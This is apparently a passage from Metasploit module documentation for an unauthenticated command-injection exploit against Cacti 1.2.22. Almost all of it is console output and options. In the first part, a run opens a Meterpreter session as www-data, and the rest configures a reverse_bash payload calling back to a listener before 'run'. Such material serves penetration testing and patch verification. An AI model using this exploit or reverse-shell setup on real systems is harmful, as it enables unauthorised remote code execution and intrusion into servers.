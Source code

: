 ```
[+] Found exploitable local_data_id 180 for host_id 1
[*] Sending stage (1017704 bytes) to 10.18.0.3
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Meterpreter session 1 opened (192.168.91.195:4444 -> 10.18.0.3:45322) at 2022-12-22 16:43:59 +0200

meterpreter > getuid
Server username: www-data
```

### Cacti 1.2.22 - Unix In-Memory - HOST_ID and LOCAL_DATA_ID set (immediate exploitation)
```
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID             1                no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID       182              no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS              192.168.91.195   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT               8080             yes       The target port (TCP)
   SRVHOST             192.168.91.195   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                                  resses.
   SRVPORT             9090             yes       The local port to listen on.
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostname in the poller table.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.91.195   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

```